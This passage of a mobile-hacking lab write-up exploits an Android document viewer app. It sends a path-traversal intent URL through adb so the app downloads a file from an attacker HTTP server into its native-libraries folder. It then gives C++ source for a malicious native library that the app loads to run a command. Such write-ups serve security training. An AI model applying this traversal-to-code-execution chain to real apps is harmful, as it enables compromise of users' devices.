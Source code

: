 ### Execute It
**Running the script**
`$ python3 http_server.py`
```
Server running on port 8080
```

**Then try to add a file to `/native-libraries/` folder**
`$ adb shell am start -n com.mobilehackinglab.documentviewer/.MainActivity -a android.intent.action.VIEW -d "http://192.168.56.102:8080/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fdata%2Fdata%2Fcom.mobilehackinglab.documentviewer%2Ffiles%2Fnative-libraries%2Fexample.pdf"`

**The result**
`$ adb shell "ls -al /data/data/com.mobilehackinglab.documentviewer/files/native-libraries"`
```
total 24
drwx------ 2 u0_a115 u0_a115 4096 2024-03-29 13:42 .
drwxrwx--x 3 u0_a115 u0_a115 4096 2024-03-29 13:42 ..
-rw------- 1 u0_a115 u0_a115 1443 2024-03-29 13:42 example.pdf
```
**Yes, It's works.**

# Exploitation
Create a malicious native library `libdocviewer_pro.so` for android.
Refer to: 
- https://www.youtube.com/watch?v=87uMi7L-3Hc
- https://docs.oracle.com/javase/8/docs/technotes/guides/jni/spec/invocation.html#JNJI_OnLoad
- https://www.youtube.com/watch?v=GQ7bwUOmVqk&list=PLwP4ObPL5GY_dBI_lSwBzKM4zxP4mWSqK&t=2447s

My `native-lib.cpp`:
```C++
#include <jni.h>  
#include <string>  
#include <unistd.h>    
  
JNIEXPORT jint JNI_OnLoad(JavaVM* vm, void* reserved) {  
    if (fork() == 0) {  
        system("touch /data/data/com.mobilehackinglab.documentviewer/poc.txt");  
    }  
    JNIEnv* env;  
    if (vm->GetEnv(reinterpret_cast<void**>(&env), JNI_VERSION_1_6) != JNI_OK) {  
        return JNI_ERR;  
    }  
    return JNI_VERSION_1_6;  
}
```
Build the apk, decompile it with apktool, then copy the `app-debug/lib/x86_64/libdocviewer.so` to the HTTP server root directory with named as `libdocviewer_pro.so`

Change the `http_server.py` script become:
```
	pdf_path = "libdocviewer_pro.so"
```
